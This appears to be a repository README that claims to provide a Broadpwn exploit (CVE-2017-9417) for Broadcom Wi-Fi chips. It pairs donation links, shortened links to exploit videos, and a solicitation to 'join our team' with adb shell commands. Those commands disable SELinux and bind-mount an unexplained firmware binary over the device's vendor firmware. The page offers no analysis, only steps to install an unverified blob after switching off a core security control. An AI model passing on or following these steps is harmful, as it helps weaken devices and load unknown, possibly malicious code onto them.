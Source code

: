 # Broadpwn
[![Donate](https://img.shields.io/badge/Donate-PayPal-green.svg)](https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=L2B2WU2L67XP8)
- Join or Ask: Linnebergmai@gmail.com 
- Broadpwn: https://goo.gl/xWC4hg | Youtube: https://youtu.be/GTb4Y2Y9shw 
- BlueBorne: https://goo.gl/PSDuwY | Youtube https://youtu.be/FJGGMyg0W38
- Yalu Jailbreak iOS 10.3.1 : https://goo.gl/9cSSPU
- Help PR.

Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #start 

  Join to our team for developing new software.

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
 
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw
